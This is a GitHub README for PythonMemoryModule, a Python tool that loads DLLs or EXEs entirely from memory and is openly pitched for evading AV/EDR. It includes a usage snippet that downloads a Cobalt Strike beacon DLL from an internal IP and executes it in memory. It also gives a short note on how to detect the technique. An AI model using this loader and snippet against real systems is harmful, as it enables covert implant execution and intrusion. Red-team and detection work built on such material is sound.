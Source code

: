 # PythonMemoryModule
pure-python implementation of MemoryModule technique to load a dll or unmanaged exe entirely from memory

<p align="center">
<img width="399" alt="immagine" src="https://user-images.githubusercontent.com/59816245/210533889-424707d3-2c82-4ca3-afaf-cc19857fa2d6.png">
<br>
"Python memory module" AI generated pic - hotpot.ai 
</p>



# What is it

PythonMemoryModule is a Python ctypes porting of the [MemoryModule](https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/) technique originally published by [Joachim Bauch](https://github.com/fancycode/MemoryModule). It can load a dll or unmanaged exe using Python without requiring the use of an external library (pyd).
It leverages [pefile](https://github.com/erocarrera/pefile) to parse PE headers and ctypes. 

The tool was originally thought to be used as a [Pyramid](https://github.com/naksyn/Pyramid/) module to provide evasion against AV/EDR by loading dll/exe payloads in python.exe entirely from memory, however other use-cases are possible (IP protection, pyds in-memory loading, spinoffs for other stealthier techniques) so I decided to create a dedicated repo.


# Why it can be useful

 1. It basically allows to use the MemoryModule techinque entirely in Python interpreted language, enabling the loading of a dll from a memory buffer using the stock signed python.exe binary without requiring dropping on disk external code/libraries (such as [pymemorymodule](https://pypi.org/project/pymemorymodule/) bindings) that can be flagged by AV/EDRs or can raise user's suspicion. 
 2. Using MemoryModule technique in compiled languages loaders would require to embed MemoryModule code within the loaders themselves. This can be avoided using Python interpreted language and PythonMemoryModule since the code can be executed dynamically and in memory.
 3. you can get some level of Intellectual Property protection by dynamically in-memory downloading, decrypting and loading dlls that should be hidden from prying eyes. Bear in mind that the dlls can be still recovered from memory and reverse-engineered, but at least it would require some more effort by the attacker.
 4. you can load a stageless payload dll without performing injection or shellcode execution. The loading process mimics the LoadLibrary Windows API (which takes a path on disk as input) without actually calling it and operating in memory.

# How to use it

In the following example a Cobalt Strike stageless beacon dll is downloaded (not saved on disk), loaded in memory and started by calling the entrypoint. 

```python
import urllib.request
import ctypes
import pythonmemorymodule
request = urllib.request.Request('http://192.168.1.2/beacon.dll')
result = urllib.request.urlopen(request)
buf=result.read()
dll = pythonmemorymodule.MemoryModule(data=buf, debug=True)
startDll = dll.get_proc_addr('StartW')
assert startDll()
#dll.free_library()
```
Note: if you use staging in your malleable profile the dll would not be able to load with LoadLibrary, hence MemoryModule won't work.

![](MemoryModuleCS.gif)


# How to detect it

Using the MemoryModule technique will mostly respect the sections' permissions of the target DLL and avoid the noisy RWX approach. However within the program memory there will be a private commit not backed by a dll on disk and this is a MemoryModule telltale.



### Future improvements

 1. add support for argument parsing.
 2. add support (basic) for .NET assemblies execution.
